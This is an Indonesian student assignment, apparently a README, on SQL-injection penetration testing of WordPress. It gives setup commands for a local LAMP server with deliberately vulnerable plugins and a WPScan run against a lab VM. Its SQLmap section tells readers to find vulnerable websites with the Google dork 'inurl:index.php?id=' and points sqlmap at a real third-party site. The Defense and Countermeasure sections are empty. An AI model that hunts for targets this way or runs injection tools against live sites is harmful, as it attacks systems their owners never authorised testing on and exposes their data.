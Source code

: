## Tugas 2

### Pendahuluan
Pada Tugas 2 kami akan mencoba penetrasi aplikasi web berbasis wordpress dengan memanfaatkan beberapa plugin yang vulnerable atau berpotensi untuk diserang dengan teknik SQL Injection. Dalam percobaan yang kami lakukan kami menggunakan beberapa tool untuk mencoba SQL Injection.

### Dasar Teori
#### SQL Injection
SQL Injection merupakan teknik mengeksploitasi aplikasi web yang didalamnya menggunakan database untuk penyimpanan data.  Aksi hacking / attacking dengan SQL injection dapat dilakukan pada aplikasi client ketika ketika masukan pengguna tidak disaring secara benar dari karakter-karakter pelolos bentukan string yang diimbuhkan dalam pernyataan SQL atau masukan pengguna tidak bertipe kuat dan karenanya dijalankan tidak sesuai harapan.

#### Ubuntu Server
Ubuntu Server adalah sistem operasi distribusi linux yang berasal dari sistem operasi ubuntu tanpa tampilan GUI desktop

#### Wordpress
WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).

#### SqlMap
SQLMap adalah alat uji penetrasi open source yang mengotomatisasi proses mendeteksi dan mengeksploitasi kelemahan injeksi SQL dan mengambil alih basis data server.
  
#### WPScan
WPScan adalah scanner keamanan yang memeriksa keamanan WordPress menggunakan metode “black box”.

### Uji Penetrasi
#### install apache2
```bash
sudo apt-get install apache2 apache2-utils
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### install mysql
```bash
sudo apt-get install mysql-client mysql-server
sudo mysql-secure-isntallation
```

#### install php and modules
```bash
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
sudo nano /var/www/html/info.php buat ngetes
```

#### install wordpress cms
```bash
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

```bash
sudo rsync -av wordpress/* /var/www/html/
```

```bash
sudo chown -R www-data:www-data /var/www/html/
$ sudo chmod -R 755 /var/www/html/
```

#### create wordpress database

```bash
mysql -u root -p
mysql> CREATE DATABASE wp_myblog;
mysql> GRANT ALL PRIVILEGES ON wp_myblog.* TO 'your_username_here'@'localhost' IDENTIFIED BY 'your_chosen_password_here';
mysql> FLUSH PRIVILEGES;
mysql> EXIT;

sudo mv wp-config-sample.php wp-config.php
```
#### configurasi wordpress

jalankan secure values dari wordpress secret key generator

```bash
curl -s https://api.wordpress.org/secret-key/1.1/salt/
```
dan copy hasil ouput dari perintah di atas pada bagian yang menyerupai hasil output pada file wp-config.php
ubah wp-config.php sesuai database

```bash
sudo systemctl restart apache2.service 
sudo systemctl restart mysql.service 
```
buka localhost/wp-admin/setup-config.php
buat user
login

#### install plugin
```bash
cd /var/www/html/wp-content/plugins
sudo wget -c https://downloads.wordpress.org/plugin/player.1.5.16.zip
sudo wget -c https://downloads.wordpress.org/plugin/leaguemanager.3.9.1.1.zip

sudo apt-get install unzip

sudo unzip player.1.5.16.zip
sudo unzip leaguemanager.3.9.1.1.zip
```

buka halaman wordpressnya, login
pilih plugins, installed plugins
aktifkan plugins yang sudah diinstall

#### WPSCAN
Install file yang dibutuhkan
```bash
sudo apt-get install git
sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev
```

Clone git project wpscan
```bash
git clone https://github.com/wpscanteam/wpscan.git
cd wpscan
sudo gem install bundler && bundle install --without test development
```

Jalankan menggunakan ruby
```bash
unzip data.zip
ruby wpscan.rb -u 192.168.56.103 --enumerate vp
```
#### SQLmap
Clone git project sqlmap
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Cari website yang vulnerable melalui google dengan cara
```bash
inurl:index.php?id=
```

Jalankan sqlmap menggunakan python
```bash
cd sqlmap
python sqlmap.py -u 'http://www.icdcprague.org/index.php?id=10'
```

### Kesimpulan

#### Defense

#### Countermeasure
